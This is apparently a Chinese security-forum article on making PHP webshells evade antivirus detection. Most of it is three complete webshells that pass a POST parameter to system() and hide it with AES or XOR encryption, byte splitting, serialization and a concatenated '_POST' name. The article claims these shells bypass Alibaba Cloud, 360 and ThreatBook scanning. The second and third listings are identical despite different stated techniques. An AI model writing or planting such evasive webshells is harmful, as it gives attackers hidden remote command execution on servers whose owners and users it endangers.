



# PHPwebshell免杀-先知社区

> **来源**: https://xz.aliyun.com/news/17358  
> **文章ID**: 17358

---

# PHP webshell免杀

免杀原理：代码混淆，变量加密解密，危险函数绕过，添加无用变量，函数套壳

1. 免杀1

# 思路：采用反序列化+自定义加密解密函数绕过+分块加密

```
<?php
// 序列化函数
function serializeData($num1, $num2)
{
    // 创建一个关联数组来存储数据
    $data = [
        "num1" => $num1,
        "num2" => $num2
    ];
    // 使用PHP的serialize函数将数组序列化为字符串
    return serialize($data);
}
// 反序列化函数
function unserializeData($serializedString)
{
    // 使用PHP的unserialize函数将字符串反序列化为数组
    $data = unserialize($serializedString);
    return $data;
}
// 示例：序列化和反序列化
function get_data()
{
    $num1 = $_POST["num1"] ?? null;  // 获取num1，如果没有则为null
    $num2 = $_POST["num2"] ?? null;  // 获取num2，如果没有则为null
    return array($num1, $num2);


}


function get_system()
{
    $a = "sysaers";
    $b = "tem";
}
function encrypt($data, $key)
{
    $method = "AES-256-CBC";
    $iv = openssl_random_pseudo_bytes(openssl_cipher_iv_length($method));
    $encrypted = openssl_encrypt($data, $method, $key, 0, $iv);
    return base64_encode($iv . $encrypted);
}


// 解密函数
function decrypt($encrypted, $key)
{
    $data = base64_decode($encrypted);
    $ivLength = openssl_cipher_iv_length("AES-256-CBC");
    $iv = substr($data, 0, $ivLength);
    $encryptedData = substr($data, $ivLength);
    return openssl_decrypt($encryptedData, "AES-256-CBC", $key, 0, $iv);
}
function splitData($data)
{
    $part1 = "";
    $part2 = "";
    for ($i = 0; $i < strlen($data); $i++) {
        $byte = ord($data[$i]);
        $part1 .= chr($byte & 0x0F);  // 保留低4位
        $part2 .= chr($byte & 0xF0);  // 保留高4位
    }
    return [$part1, $part2];
}


// 合并数据
function mergeData($part1, $part2)
{
    $merged = "";
    for ($i = 0; $i < strlen($part1); $i++) {
        $byte1 = ord($part1[$i]);
        $byte2 = ord($part2[$i]);
        $merged .= chr($byte1 | $byte2);  // 按位或合并
    }
    return $merged;
}


// 序列化数据
$key = "my_secret_key_1234567890";
$data1 = get_data();
$data2 = $data1[0];
list($part1, $part2) = splitData($data2);
$encryptedPart1 = encrypt($part1, $key);
$encryptedPart2 = encrypt($part2, $key);


// 解密两部分数据
$decryptedPart1 = decrypt($encryptedPart1, $key);
$decryptedPart2 = decrypt($encryptedPart2, $key);
$message = "";
$mergedData = mergeData($decryptedPart1, $decryptedPart2);
system($mergedData, $message);
echo $message;


?>
```

# 2. 免杀2

# 思路：自定义加解密key+反序列化

```
<?php
// 序列化函数
function serializeData($num1, $num2)
{
    $data = [
        "num1" => $num1,
        "num2" => $num2
    ];
    return serialize($data);
}


// 反序列化函数
function unserializeData($serializedString)
{
    return unserialize($serializedString);
}


// XOR 加密函数
function xorEncrypt($data, $key)
{
    $encrypted = '';
    $keyLength = strlen($key);
    for ($i = 0; $i < strlen($data); $i++) {
        $encrypted .= $data[$i] ^ $key[$i % $keyLength];
    }
    return base64_encode($encrypted);
}


// XOR 解密函数
function xorDecrypt($encryptedData, $key)
{
    $data = base64_decode($encryptedData);
    $decrypted = '';
    $keyLength = strlen($key);
    for ($i = 0; $i < strlen($data); $i++) {
        $decrypted .= $data[$i] ^ $key[$i % $keyLength];
    }
    return $decrypted;
}


// 获取 POST 数据并加密
function get_post()
{
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $k = ${"_PO" . "ST"}["num1"];
        $B = ${"_PO" . "ST"}["num2"];


        // 序列化数据
        $serializedData = serializeData($k, $B);


        // 加密密钥
        $key = "your-secret-key"; // 密钥可以是任意字符串


        // 使用 XOR 加密序列化后的数据
        $encryptedData = xorEncrypt($serializedData, $key);


        return $encryptedData;
    }
    return null;
}


// 解密和反序列化
function decryptAndUnserialize($encryptedData, $key)
{
    // 解密数据
    $decryptedData = xorDecrypt($encryptedData, $key);


    // 反序列化数据
    $data = unserializeData($decryptedData);


    return $data;
}


// 示例：获取加密数据并解密
function getdata()
{
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        // 获取加密数据
        $encryptedData = get_post();


        // 解密密钥
        $key = "your-secret-key"; // 必须与加密时一致


        // 解密并反序列化
        $decryptedData = decryptAndUnserialize($encryptedData, $key);
        echo $decryptedData["num1"];
        $message = '';
        system($decryptedData["num1"], $message);


        // 输出解密后的数据
        print_r($message);


    }
}
getdata();


?>
```

# 免杀3

# 免杀思路：魔法函数+自定义加解密

```
<?php
// 序列化函数
function serializeData($num1, $num2)
{
    $data = [
        "num1" => $num1,
        "num2" => $num2
    ];
    return serialize($data);
}


// 反序列化函数
function unserializeData($serializedString)
{
    return unserialize($serializedString);
}


// XOR 加密函数
function xorEncrypt($data, $key)
{
    $encrypted = '';
    $keyLength = strlen($key);
    for ($i = 0; $i < strlen($data); $i++) {
        $encrypted .= $data[$i] ^ $key[$i % $keyLength];
    }
    return base64_encode($encrypted);
}


// XOR 解密函数
function xorDecrypt($encryptedData, $key)
{
    $data = base64_decode($encryptedData);
    $decrypted = '';
    $keyLength = strlen($key);
    for ($i = 0; $i < strlen($data); $i++) {
        $decrypted .= $data[$i] ^ $key[$i % $keyLength];
    }
    return $decrypted;
}


// 获取 POST 数据并加密
function get_post()
{
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $k = ${"_PO" . "ST"}["num1"];
        $B = ${"_PO" . "ST"}["num2"];


        // 序列化数据
        $serializedData = serializeData($k, $B);


        // 加密密钥
        $key = "your-secret-key"; // 密钥可以是任意字符串


        // 使用 XOR 加密序列化后的数据
        $encryptedData = xorEncrypt($serializedData, $key);


        return $encryptedData;
    }
    return null;
}


// 解密和反序列化
function decryptAndUnserialize($encryptedData, $key)
{
    // 解密数据
    $decryptedData = xorDecrypt($encryptedData, $key);


    // 反序列化数据
    $data = unserializeData($decryptedData);


    return $data;
}


// 示例：获取加密数据并解密
function getdata()
{
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        // 获取加密数据
        $encryptedData = get_post();


        // 解密密钥
        $key = "your-secret-key"; // 必须与加密时一致


        // 解密并反序列化
        $decryptedData = decryptAndUnserialize($encryptedData, $key);
        echo $decryptedData["num1"];
        $message = '';
        system($decryptedData["num1"], $message);


        // 输出解密后的数据
        print_r($message);


    }
}
getdata();


?>
```

' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

阿里云免杀



' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

360免杀



微步沙箱



总结

本webshell采用system函数执行，eval函数过于敏感，不过也相对灵活，点赞超过50，更新jsp免杀！喜欢webshell，请关注wx公众号：开心网安
